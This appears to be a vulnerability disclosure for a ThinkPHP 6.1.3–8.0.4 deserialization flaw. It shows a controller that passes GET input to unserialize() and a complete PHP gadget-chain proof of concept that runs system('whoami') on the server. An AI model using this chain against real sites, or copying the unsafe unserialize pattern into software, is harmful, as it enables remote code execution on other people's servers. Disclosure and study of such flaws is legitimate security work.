 ## Vulnerability description

A deserialization vulnerability in Thinkphp v6.1.3 to v8.0.4 allows attackers to execute arbitrary code.

By triggering the __call method of the Query class

 

## Affects Version



Thinkphp v6.1.3 to v8.0.4

## Vulnerability certificate

php8.0.2 thinkphp v8.0.0



First, add new deserialization endpoint in app\controller\Index.php, such as:

```php
<?php

namespace app\controller;

use app\BaseController;

class Index extends BaseController
{
    public function index()
    {
        unserialize($_GET['lll']);
        return '<style>*{ padding: 0; margin: 0; }</style><iframe src="https://www.thinkphp.cn/welcome?version=' . \think\facade\App::version() . '" width="100%" height="100%" frameborder="0" scrolling="auto"></iframe>';
    }

}
```



POC

```
<?php

namespace think\db;
class Query{
}

namespace think;

abstract class Model
{

    private $data = [];
    private $withAttr = [];
    protected $json = [];
    protected $jsonAssoc = true;
    private $lazySave;
    protected $withEvent;
    private $exists;
    private $force;
    protected $table;
    protected $connection;
    function __construct()
    {
        $this->data["lll"]=["whoami"];
        $this->withAttr["lll"]=["system"];
        $this->json=["lll"];
        $this->lazySave = true;
        $this->withEvent = false;
        $this->exists = true;
        $this->force = true;
        $this->jsonAssoc = true;

    }
}
namespace think\model\relation;
use think\model\Pivot;
use think\db\Query;


class BelongsTo{
    protected $query;
    protected $parent;
    protected $foreignKey;
    function __construct(){
        $this->query=true;
        $this->parent=new Query();
        $this->foreignKey=new Pivot();
    }

}

namespace think\model;

use think\Model;

class Pivot extends Model
{
}


namespace think\route;
use think\model\relation\BelongsTo;

class ResourceRegister
{
    protected $registered = false;
    protected $resource;
    protected $db;
    function __construct()
    {
        $this->registered=false;
        $this->resource=new BelongsTo();
    }
}


namespace think;
use think\route\ResourceRegister;
$r=new ResourceRegister();
echo urlencode(serialize($r));

```



![image-20240912111735315](https://gitee.com/nn0nkey/picture/raw/master/img/image-20240912111735315.png)
